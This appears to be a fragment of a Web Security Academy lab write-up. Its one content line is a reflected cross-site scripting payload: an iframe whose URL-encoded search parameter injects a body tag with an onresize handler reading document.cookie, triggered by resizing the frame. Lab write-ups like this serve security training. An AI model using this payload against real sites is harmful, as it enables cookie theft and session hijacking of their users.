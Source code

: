 ### Payload using event onresize

```
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
```
